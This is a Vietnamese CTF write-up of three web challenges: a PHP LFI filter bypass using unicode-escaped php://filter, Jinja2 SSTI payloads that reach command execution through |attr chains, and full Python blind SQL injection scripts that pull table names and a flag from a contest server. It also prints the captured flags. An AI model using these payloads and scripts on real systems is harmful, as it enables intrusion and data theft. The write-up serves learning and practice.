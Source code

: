 # WannaWinFreshman-Writeup
# Bài 1 Warmup PHP:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/63658021-4722-4417-b2ed-48eb746d03fe)

- Tóm tắt đề thì đại khái là đề bảo chúng ta phải POST data lên dưới dạng json có key là **page** và sau đó chương trình sẽ server sẽ decode ra và đọc file trong server
- Bài này mới vào thì mình nghĩ đến LFI với filter base64 nhưng khổ nổi là nó chặn ngay chữ php, data, file nên mình không thể chuyển qua base64 được
- Sau gần 30 phút - 1 tiếng thì mình tìm được một bài viết dưới đây [LINK](https://trustfoundry.net/2018/12/20/bypassing-wafs-with-json-unicode-escape-sequences/)
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c7280b09-24af-47b3-9a0e-e82ed1894471)
- Cơ bản là json_decode nó sẽ decode luôn unicode trong biểu diễn hex vì vậy mình chỉnh lại cái payload của mình từ 
`php://filter/convert.base64-encode/resource=/flag`
thành
`\u0070hp://filter/convert.base64-encode/resource=/flag`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/463ea634-efa7-4c42-b0d9-92341d335d5b)
- Decode base64 và ra flag
- Flag: **W1{w3lc0m3_w3b_w4rrj0rs}**
- ~~Funfact: Payload mình làm ra bài này là encode gần như tất cả các ký tự thành dạng unicode biểu diễn hex làm mình tốn rất nhiều thời gian <(")~~
# Bài 2 Namename:
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/d8bc1de3-0f9a-45ff-9878-141cd0df45ad)
- Bài này cho 1 đường link và không cho thêm gì khác sau khi xem source của web này thì thấy có 1 đường dẫn là `/wannaw1n`
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/c1b22bdc-3266-495f-b6e0-a7edcd95eef0)
- Sau khi đi tới đường dẫn /wannaw1n mình nhận ra ngay đây là SSTI jinja2 ( Mình sẽ nói về rõ cách SSTI này lần sau :v)
- Mình ném ngay payload của mình vào thử xem RCE được không
- Payload : `{{().__class__.__base__.__subclasses__()[279]('ls',shell=1,stdout=-1).communicate()}}`
- Và nó bị chặn ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/77f0aa01-5dfa-4ad9-9c2b-9e6ba8736812)
- Sau vài thử nghiệm thì có vẽ nó chặn dấu . nên mình chuyển qua |attr

- Payload mới: `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('ls',shell=1,stdout=-1)|attr('communicate')()}}`
- Và ok nó hoạt động tốt
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2883ff9a-261d-4332-81c6-937c70020427)
- Bây giờ sửa lại payload từ `ls` sang `cat flag.txt` thôi
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/28f86e01-25e7-4e51-8e67-9e53225a5f43)
- Và không nó vẫn bị chặn cái gì nên mình sử dụng cách này bypass filter
- `{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(279)('cat+*',shell=1,stdout=-1)|attr('communicate')()}}`
- Cách này sẽ đọc hết tất cả các file trong thư mục hiện tại và tìm được flag
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/2c578c66-f98c-43dd-a306-e629ab3f7137)
- Flag: **W1{U_are_master_in_SSTI}**
# Bài 3 Solite:
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/5d20fa22-0fc9-4f4c-8039-7de1d61b594f)
- Bài này mình khá tiếc vì mình đọc không kỉ filter nên mình không làm được
- Tóm tắt đề thì bài này chỉ cho chúng ta cái page như này mà làm sao đó mà tìm được flag
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/7d1fe742-a26a-4705-9888-f2d827d562b5)
- Sau khi nghiên cứu và được nghe 1 số gợi ý thì mình hiểu được đây là Blind SQL Injection
- Nhìn kĩ source thì có 1 lỗ hổng cho chúng ta khai thác là substr không bị filter vì trong filter là substrs thứ mà không hề tồn tại
- ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/ae13e11e-52fe-4bb5-8360-c2095b361fc4)
- Đây là query của bài
  ![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/317e6d80-27b4-41c2-b14b-c4b6e6d84b37)
- Sau một vài thử nghiệm thì mình tìm được các để in ra tên của bảng
- `Payload: 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),i,1) is 'a'--`
- Tóm tắt :
- Payload này sau khi gửi lên server thì server sẽ thực hiện 1 query như sau `SELECT * FROM API WHERE id LIKE '%1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--%'`
- `select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'` sẽ trả về tên của tất cả các bảng
- `substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1)` sẽ lấy 1 ký tự a bắt đầu từ vị trí i
` 1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--` cái này sẽ so sánh ký tự mà substr vừa cắt ra nếu chính xác thì sẽ thực hiện lệnh đằng trước là `SELECT * FROM API WHERE id LIKE '%1'` và trả về cột id=1 nếu sai thì nó không thực hiện và chẳng trả về gì cả
- Đây là script mình tìm tên của bảng
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="
payload="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%'),1,1) is 'a'--"
table_name = ""
haha = 0
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select group_concat(tbl_name) FROM sqlite_master WHERE type is 'table' and tbl_name NOT like 'sqlite_%%'),%d,1) is '%c'--" %(i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            table_name += ps
            print("Table names: ",table_name)
            haha +=1
    if haha < i:
        break
print("Success all the names of the tables are:",table_name)
```
- Và tìm ra được tên của các bảng là
![image](https://github.com/anzuukino/WannaWinFreshman-Writeup/assets/86243871/32f3cf53-f620-48af-8da5-d07cfca0a405)
`Tables: API,flag_c1abd148_acae_40be_a953_eae333f90da0`
- Bây giờ dựa vào cái trên lấy ra flag từ bảng `flag_c1abd148_acae_40be_a953_eae333f90da0` thôi
- Scripting của mình
```py
import string,requests
from urllib.parse import quote

all_characters = string.ascii_letters + string.digits + "!#$%&()+,-/:<=>?@[]^_{}"
url = "http://45.122.249.68:20020/search?name[]="

table_name = "flag_c1abd148_acae_40be_a953_eae333f90da0"
#payload = "1' and substr((select flag from flag_c1abd148_acae_40be_a953_eae333f90da0),1,1) is 'a'--"
haha = 0
flag =""
for i in range(1,10000):
    for ps in all_characters:
        payload ="1' and substr((select flag from %s),%d,1) is '%c'--" %(table_name,i,ps)
        payload =  quote(payload)
        urlx = url + payload
        #print(urlx)
        r=requests.get(url=urlx)
        if "id" in r.text:
            flag += ps
            print("Flag is: ",flag)
            haha +=1
    if haha < i:
        break
print("Here is your flag:",flag)
```
- Flag: **W1{I_th1nk_u_r_so_lite^_^}**
- ~~**Mấy bài còn lại mình chưa biết làm do dark quá**~~









